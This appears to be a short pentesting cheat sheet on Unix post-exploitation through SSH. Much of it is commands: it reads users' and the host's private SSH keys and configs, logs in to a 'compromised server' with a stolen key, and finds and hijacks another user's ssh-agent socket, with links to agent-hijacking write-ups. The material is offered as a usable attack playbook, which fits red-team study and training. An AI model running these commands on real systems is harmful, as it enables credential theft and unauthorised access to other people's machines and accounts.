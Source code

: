 # Unix Shell

## Password and Keys - SSH Keys

```
$ cat /home/*/.ssh/authorized_keys

$ cat /home/*/.ssh/config

$ cat /home/*/.ssh/identity.pub

$ cat /home/*/.ssh/identity

$ cat /home/*/.ssh/id_rsa.pub

$ cat /home/*/.ssh/id_rsa

$ cat /home/*/.ssh/id_dsa.pub

$ cat /home/*/.ssh/id_dsa

$ cat /etc/ssh/ssh_config

$ cat /etc/ssh/sshd_config

$ cat /etc/ssh/ssh_host*

$ cat /etc/ssh/ssh_host_dsa_key.pub

$ cat /etc/ssh/ssh_host_dsa_key

$ cat /etc/ssh/ssh_host_rsa_key.pub

$ cat /etc/ssh/ssh_host_rsa_key

$ cat /etc/ssh/ssh_host_key.pub

$ cat /etc/ssh/ssh_host_key
```

Once you were able to get the SSH Keys using the chmod command with octal permissions then authenticate through the compromised server

```
$ chmod 600 ssh_key

$ ssh -i ssh_key <user>@<IP>
```

## SSH Agent

TODO: Figure it out how it works.

```
$ env | grep SSH_AUTH_SOCK
```

```
$ eval $(ssh-agent -s)
$ ssh-add -l
```

```
$ pstree -p <username> | grep sshd

$ sudo tr '\0' '\n' < /proc/<sshd_pid>/environ | grep SSH_AUTH_SOCK

$ ps auxeww | grep ssh-agent | grep SSH_AUTH_SOCK | sed 's/.*SSH_AUTH_SOCK=//' | cut -f 1 -d ' '
```

```
$ export SSH_AUTH_SOCK=/path/to/agent.<pid>

$ export SSH_AUTH_SOCK=/tmp/ssh-tqiEl28473/agent.28473

$ ssh user@host
```

---
## References

- [Hacktricks: SSH Forward Agent exploitation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/ssh-forward-agent-exploitation)

- [Embrace The Red: TTP Diaries - SSH Agent Hijacking](https://embracethered.com/blog/posts/2022/ttp-diaries-ssh-agent-hijacking/)